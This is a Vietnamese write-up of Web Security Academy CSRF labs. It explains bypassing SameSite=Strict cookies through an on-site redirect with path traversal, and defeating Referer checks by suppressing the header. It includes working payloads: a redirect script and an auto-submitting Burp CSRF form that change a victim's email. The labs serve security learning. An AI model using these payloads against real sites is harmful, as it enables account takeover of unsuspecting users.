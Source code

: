 Context: Với cookie được đặt `SameSite=Strict` thì nó chỉ gắn cookie khi chuyển hướng trong trang, ko gắn khi liên trang hay kể cả khác scheme

Vì vậy cần tìm 1 chuyển hướng từ trang gốc đến chính trang đó, và ở đây mình sẽ cố đâm vào cái url chuyển hướng thứ 2, vì nó sẽ mang cookie theo

Ta tìm được 1 trang chuyển hướng khi post comment ta nhận được path: `/post/comment/confirmation?postId=x`

Sau đó nó được chuyển hướng về postId `x`

Thêm vào đó ta có thể thâu tóm path này để path traversal đến bất kì trang nào:

`/post/comment/confirmation?postId=1/../../myaccount`

Mặt khác ta có thể change email bằng GET thay vì POST 

```http
GET /my-account/change-email?email=abcd%40gmail.net&submit=1 HTTP/2
```

Payload:

```js
<script>
    document.location = "https://0a06002304ad4b2082303ecf00390045.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

Gửi cho victim

Khi victim truy cập vào link, nó sẽ redirect đến trang này và vì cùng site nên nó vẫn mang theo cookie victim

## SameSite Strict bypass via sibling domain
<đã giải, có WU>

## SameSite Lax bypass via cookie refresh
Liên quan đến OAuth <đã giải, có WU>

## CSRF where Referer validation depends on header being present

Nó báo `referer` header đang bị sai, thêm `<meta name="referrer" content="never">` và exploit lại thì ta đã có thể change email

Ta cũng có thể thay bằng `<meta name="referrer" content="no-referrer">`

Payload: 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="never">
  <body>
    <form action="https://0a490017038fb2118041801400e3005f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd&#64;gmail&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
